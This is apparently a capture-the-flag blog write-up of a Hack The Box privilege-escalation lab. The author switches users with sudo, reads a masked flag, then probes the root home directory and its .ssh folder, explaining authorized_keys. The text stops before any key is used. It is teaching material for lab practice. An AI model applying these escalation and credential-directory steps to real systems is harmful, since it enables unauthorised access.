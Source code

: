 With this in mind, I now want to see if it will work. So I run the following command for user2 as user1:
```
sudo -u user2 /bin/bash

```
From the terminal, this seems to have worked since the CLI switched from:
```
user1@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:
```
to this:
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ 

```
Notice that we now have user2 access. So, once again, we try to read the _flag.txt_ file and manage to get the flag.
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ ls
flag.txt
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ cat flag.txt 
HTB{l473r4l_********_**_*******_u53r}

```
Ah great, so what, are we done? Or is there more we could do here? We have further instructions:
![chall blog](/assets/images/privilege-escalation/PriviledgeEscalation0.jpg)
Now we try to see if we can be the **root** user for this machine, escalating our privileges even further. First I navigate to the root user folder using the following commands:
```
cd ../../
ls
cd root
```
Then I list all directories and this is the output I get:
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:/root$ ls -a
.  ..  .bash_history  .bashrc  .profile  .ssh  .viminfo  flag.txt

```
As you can see here, we have our _flag.txt_ file. I'm tempted to open it, and I do, but again, I get denied permission to do so. I then notice another interesting directory,**.ssh**. So I navigate to it and list its contents. 

The **.ssh** folder in a user's home directory on a Unix-like operating system that contains important files and directories related to SSH (Secure Shell) authentication and communication. 

**authorized_keys**: Contains a list of public keys authorized to access the user account using SSH key-based authentication. Each line in this file represents a separate public key. When a client (remote computer) attempts to connect to the user account, the server checks if the client's public key matches any of the keys listed in this file. If there's a match, the client is granted access without needing to enter a password.
